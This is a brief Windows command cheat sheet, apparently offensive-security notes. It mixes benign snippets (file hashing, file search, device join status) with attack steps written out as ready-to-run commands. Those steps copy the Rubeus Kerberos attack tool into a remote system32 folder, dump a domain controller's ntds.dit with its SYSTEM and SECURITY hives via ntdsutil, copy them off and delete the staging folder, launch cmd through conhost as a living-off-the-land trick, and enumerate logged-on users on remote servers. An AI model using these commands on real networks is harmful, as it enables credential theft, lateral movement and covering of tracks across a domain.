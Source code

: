 # Copy files between systems
```batchfile
xcopy "C:\Rubeus.exe" \\<computer>.<domain.local>\C$\Windows\system32\
```

# Dump ntds.dit on a domain controller
```batchfile
ntdsutil "ac i ntds" "ifm" "create full C:\Windows\Temp\xn--5o8hui" q q
xcopy "\\<dc>.<domain.local>\C$\Windows\Temp\xn--5o8hui\Active Directory\ntds.dit" C:\<dc>\
xcopy "\\<dc>.<domain.local>\C$\Windows\Temp\xn--5o8hui\registry\SYSTEM" C:\<dc>\
xcopy "\\<dc>.<domain.local>\C$\Windows\Temp\xn--5o8hui\registry\SECURITY" C:\<dc>\
rmdir /S C:\Windows\Temp\xn--5o8hui\
```

# Run commands via [conhost](https://lolbas-project.github.io/lolbas/Binaries/Conhost/)
```batchfile
conhost cmd.exe
```

# Find files or directories
```batchfile
dir "C:\Users\*.txt" /s
```

# Merge two binary files
```batchfile
copy /b cmd.exe+calc.exe new_cmd.exe
```

# Get hash of a file
```batchfile
certutil -hashfile C:\Windows\System32\cmd.exe SHA256
```

# [Displays the device join status](https://learn.microsoft.com/en-us/azure/active-directory/devices/faq#how-do-i-know-what-the-device-registration-state-of-the-client-is)
```batchfile
dsregcmd.exe /status
```
# Get a list of logged user sessions from a remote computer
## qwinsta
```batchfile
qwinsta /server:[server]
```
## query session
```batchfile
query session /server:[server]
```

## query user
```batchfile
query user /server:[server]
```
